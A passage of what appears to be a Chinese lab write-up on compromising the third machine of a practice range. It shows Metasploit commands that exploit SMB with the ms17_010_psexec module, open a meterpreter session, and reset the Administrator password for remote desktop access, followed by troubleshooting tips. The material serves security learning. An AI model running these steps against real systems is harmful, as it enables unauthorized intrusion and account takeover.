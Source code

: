 a、获取shell

1、从扫描的结果来看，不难看出这是一个开放着445、3389端口的Windows系统，那就先用永恒之蓝攻击试试

    msf5 > use exploit/windows/smb/ms17_010_psexec
    msf5 exploit(windows/smb/ms17_010_psexec) > set payload windows/meterpreter/bind_tcp
    msf5 exploit(windows/smb/ms17_010_psexec) > set RHOST 192.168.33.33
    msf5 exploit(windows/smb/ms17_010_psexec) > options
    msf5 exploit(windows/smb/ms17_010_psexec) > run
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214813595.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
2、查看账户，直接修改账户密码，利用3389连接，注意要在SocksCap中运行连接远程桌面程序

    meterpreter > shell
    C:\Windows\system32>net user
    C:\Windows\system32>net user Administrator 123
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101221482820.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**0x04 总结**

到目前为止，三台靶机都已经拿下，这里推荐读者能够自己亲手尝试，找到里面的flag，其中所有flag的找寻方式，会在我的公众号“TeamsSix”推送，这里只讲述拿下三台靶机的方法。 这次的练习耗费了自己的大量时间，从靶场搭建到获取到第三层靶机的shell，这其中碰到的一些问题及我自己踩过的一些坑记录在下面：

1、蚁剑中查看一些文件会提示权限不足，在meterpreter中可以正常查看-
2、蚁剑中在Target2里执行命令或者查看文件时不时会失败，初步判断是因为本地网络代理的原因，多试几次就行，总有一次是成功的-
3、MSF中Socks5代理模块使用总是失败，Socks4a模块使用成功-
4、MSF中建立的会话总是自动断开，将会话连接的靶机上的防火墙关闭即可-
5、MSF中ms17010eternalblue模块利用总是失败，ms17010psexec模块使用成功-
6、meterpreter中查看文件的路径和Windows下文件的路径里的“/”是相反的-
7、meterpreter中上传文件大小貌似有限制，文件上传到8M左右就会提示失败，因此需要将文件压缩成多个小文件进行上传，同时上传7-zip工具（该工具只有1M大小），再利用7-zip对其解压即可，当然此方法仅适用于Windows，linux上的方法可以自行谷歌

**参考文章：**

    http://zerlong.com/512.html
    
    https://www.anquanke.com/post/id/170649
    
    https://www.anquanke.com/post/id/164525
    
    https://blog.csdn.net/qq_36711453/article/details/84977739
    
        

* * *